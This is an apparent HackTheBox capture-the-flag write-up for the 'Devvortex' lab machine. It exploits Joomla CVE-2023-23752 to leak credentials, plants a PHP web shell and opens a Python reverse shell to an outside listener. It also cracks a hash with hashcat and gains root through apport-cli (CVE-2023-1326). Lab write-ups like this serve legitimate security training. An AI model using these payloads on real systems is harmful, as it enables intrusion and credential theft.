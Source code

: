 # Devvortex

## Info

Devvortex is an easy linux box from hackthebox.  

## HTTP 80

Subdomain  

```
http://dev.devvortex.htb
```

### joomla.xml

Location  

```
http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
```

Version  

```
4.2.6
```

### CVE-2023-23752

There is an improper access check on 4.0.0 - 4.2.7 that allows the plaintext user and password of the database. Using curl.  

```
curl -v http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
```

Which gives the following credentials.  

```
lewis:P4ntherg0t1n5r3c0n##
```

The above credentials sign lewis into the admin panel, he is a super admin.  

## User

Under the systems tab, there is a site template link which enables editing of the landing page index.php.  

```
<?php if(isset($_REQUEST['cmd'])) system($_REQUEST['cmd']); ?>
```

The landing page is not writable, but the admin panel is.  

```
http://dev.devvortex.htb/administrator/index.php?cmd=whoami
```

Python3 number revshell returns.  

```
export RHOST="10.10.14.81";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

After I access the database with lewis creds, I find the following hash in joomla users table.  

```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```

hashcat  

```
sudo hashcat -m 3200 -a 0 logan.hash /usr/share/wordlists/rockyou.txt --force
```

Logan password  

```
tequieromucho
```

## root

The user logan can run the following as root.  

```
/usr/bin/apport-cli
```

If this is run as root, viewing the report will drop into a pager. CVE-2023-1326.  
Create a crash file.  

```
/usr/bin/sleep 5000 &
pkill -SIGSEGV sleep
```
Sudo command.  

```
sudo /usr/bin/apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
```

After pressing v to view report, it drops into a pager, run bash.  

```
!/bin/bash
```
